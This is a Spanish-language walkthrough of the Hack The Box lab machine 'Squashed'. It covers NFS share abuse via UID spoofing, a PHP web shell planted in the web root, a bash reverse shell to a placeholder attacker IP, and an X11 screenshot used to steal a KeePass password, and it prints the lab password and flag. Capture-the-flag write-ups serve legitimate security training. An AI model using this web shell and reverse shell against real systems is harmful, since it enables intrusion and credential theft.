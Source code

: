 ```yaml
---
layout: single
title: Squashed - Hack The Box
excerpt: "En esta maquina se toca estos temas: Abusar de los propietarios asignados a los recursos compartidos de NFS mediante la creación de nuevos usuarios en el sistema  (Obtener acceso a la raíz web). Creación de un shell web para obtener acceso al sistema. Abuso del archivo .Xauthority (Pentesting X11). Tomar una captura de pantalla de la pantalla de otro usuario." 
date: 2023-04-16
classes: wide
header:
  teaser: /assets/images/HTB/writeup-squashed/Squashed.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Easy
  - CFTs
tags:
  - Privilege Escalation
  - Pentesting
  - Linux
  - NFS mount
---
```


![](/assets/images/HTB/writeup-squashed/Squashed.png)

***


**INDICE**

1. [Reconocimiento](#reconocimiento).
    * [Reconocimiento de Puertos](#recon-nmap).
2. [Puertos](#Puerto2049).
3. [Escalada de Privilegios .Xauthority](☣️). 


    
***

Reconocimiento [](reconocimiento) {#reconocimiento}



## Reconocimiento de Puertos [🔍]

Como siempre antes de escanear los puertos con **Nmap** le hacemos un <span style="color:red"> ping </span> a la maquina victima para ver si esta viva y nos responde.


![](/assets/images/HTB/writeup-squashed/TrazaICMP.png)


En este caso nos responde y me arroja una **TTL** de 63, por lo que acercarse a 64, me enfrento a una maquina <span style="color:green"> Linux </span>.

| TTL    | Sistema Operativo | 
| :----- | :------- | 
| 64     | Linux    | 



Una vez que ya me comunique con la maquina y extraje el dato que es se trata de una maquina Linux, procedo a desplegar la herramienta Nmap.


```bash
# Primer con nmap  para sacar los puertos abiertos de la máquina
--------------------------------------------------------------
nmap -p- -n --open -sV --min-rate 5000 -vvv -n -Pn 10.10.11.191 
```

![](/assets/images/HTB/writeup-squashed/nmap1.png)


```bash
# Segundo escaneo con los scripts default de nmap y tambien sacamos  la Versión y Servicio que tiran los puertos escaneados anteriormente 
--------------------------------------------------------------
nmap -sC -sV -p22,80,111,2049,39033 10.10.11.191
```

![](/assets/images/HTB/writeup-squashed/nmap2.png)


## Puerto 2049 


Por lo que veo obtengo esta información, me doy cuenta que hay petisiones **nfs** en el **Puerto 2049**, al ser mi primera maquina de <span style="color:green"> HackTheBox </span>, acudo a <span style="color:red"> HackTricks </span>
para saber sobre NFS.

- [Recurso extraido de HackTricks](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting)



```bash
# Primero hay que avriguar  que carpetas tiene el servidor disponibles para montar, lo averiguamos con este comando
--------------------------------------------------------------------------------
showmount -e <IP>
```

![](/assets/images/HTB/writeup-squashed/shownmount.png)

Obtengo estos dos directorios:

|  /home/ross  |  /var/www/html  |

Y para montar estos dos directorios, me creo dos directorios llamados **/mnt/ross y /mnt/web_server** en el directorio **/mnt** y luego los monto


```bash
# Creo los directorios
----------------------
sudo mkdir /mnt/ross
sudo mkdir /mnt/web_server
# Monto los directorios en cada carpeta
sudo mount 10.10.11.191:/home/ross /mnt/ross
sudo mount 10.10.11.191:/var/www/html /mnt/web_server
```

Una vez que hecho esto, listo los directorios a ver que encuentro...


![](/assets/images/HTB/writeup-squashed/listadodedirectorios.png)


Veo que existe un archivo  <span style="color:red">Passwords.kdbx</span> que  básicamente su extension <span style="color:red">.kdbx</span> indica que es la base de datos que usa keepass para almacenar las contraseñas, tambien se ve que en directorio **./we_server** no despliega nada, voy a ver si puedo acceder a el...


![](/assets/images/HTB/writeup-squashed/cdwebserver.png)

Ok no tengo acceso a el, voy a ver que usuario tiene acceso el directorio


![](/assets/images/HTB/writeup-squashed/usuarioquetieneprivilegio.png)

Ok pensando un poco podria burlar el **user 2017** creando uno en mi maquina 


![](/assets/images/HTB/writeup-squashed/directorioswebserver.png)

Como estoy en el directorio del servidor web y veo el archivo **index.html** , probare intentar cargar un archivo .php para poder poder ejecutar cualquier comando en la **URL**

```bash
# Script php
----------------------
<?php   
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Una ves ejecutado este script puedo ejecutar cualquier comando en la URL

![](/assets/images/HTB/writeup-squashed/cmd=ls-l.png)

Entonces puedo crear una Reverse Shell, pero antes me pongo en escucha con el puerto 1337 (en mi caso)



```bash
# Reverse Shell, encodear co el signo % al signo &
----------------------
bash -c "bash -i >%26 /dev/tcp/<IP ATACANTE>/1337 0>%261"
```

![](/assets/images/HTB/writeup-squashed/reverseshell.png)

Antes de continuar actualizo la tty 

```bash
> script /dev/null -c bash
--------------------------
> Ctrl+z
--------------------------
> stty raw -echo; fg 
        reset xterm
--------------------------
export TERM=xterm
export SHELL=bash
```



# Escalada de Privilegios .Xauthority ☣️


Para <span style="color:red">conseguir la escalada de privilegios sigo estos pasos</span>:

* Primero me creo otro usuario para tener acceso al archivo .Xauthority.

* Pero no tegno acceso al archivo. 


![](/assets/images/HTB/writeup-squashed/usuarioquetieneprivilegio.png)

* Monto un servidor http con python3 en el puerto 8080 en el usuario que me cree hace un momento.

```bash
# Servidor python3 
------------------
python3 -m http.server 8080
```

* Una vez ya descargado el archivo **.Xauthority**, con ayuda HackTricks busco el comando para poder leer dicho archivo.

- [Recurso extraido de HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11)


No lo puedo leer, entonces saco un screenshot a la seccion keepas abierta del usuario 



```bash
# Ejecuto el comando sacado de HakcTricks y lo guardo como archivo screenshot.xwd
------------------
xwd -root -screen -silent -display :0 > screenshot.xwd
```


![](/assets/images/HTB/writeup-squashed/Screenshotxwd.png)


Lo siguiente que hago es migrar a mi usuario de Kali para ponerme en escucha en el puerto 443, haci enviarme el archivo screenshot.xwd, dicho archivo se encuentra en el usuario **alex**


```bash
# Covierto el archivo .xwd a .png (esto comando se encuentra en HackTricks, el enlace anteriormente mencionado)
------------------
convert screenshot.xwd screenshot.png
```


![](/assets/images/HTB/writeup-squashed/convert.png)

Abro el screenshot y listo ahi se ve la **password**


![](/assets/images/HTB/writeup-squashed/screenshot.png)


Por ultimo me dirijo al usuario alex y con las **password** <span style="color:red">cah$mei7rai9A</span> para comvertirme el **root**



![](/assets/images/HTB/writeup-squashed/rootalex.png)

Ya tenemos acceso a la <span style="color:red"> **Flag**
</span> <span style="color:green"> b51b91e8c62ad3b8d90b75c414b7d143
</span> 
